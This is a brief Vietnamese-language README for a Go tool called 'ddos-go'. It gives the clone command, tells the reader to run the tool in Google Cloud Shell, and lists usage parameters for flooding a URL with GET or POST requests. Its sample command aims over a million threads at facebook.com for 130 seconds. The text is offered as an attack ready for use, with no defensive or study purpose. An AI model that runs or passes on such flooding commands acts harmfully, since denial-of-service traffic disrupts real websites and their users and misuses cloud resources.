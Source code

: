 # Cách dùng
git clone https://github.com/thaibaocute/ddos-go
[ bỏ vào gg cloud shell]
lệnh chạy cd ddos-go
go run ddos.go <url> <threads> <get/post> <seconds> <header.txt>
mẫu go run ddos.go https://www.facebook.com/ 1303000 get 130 header.txt

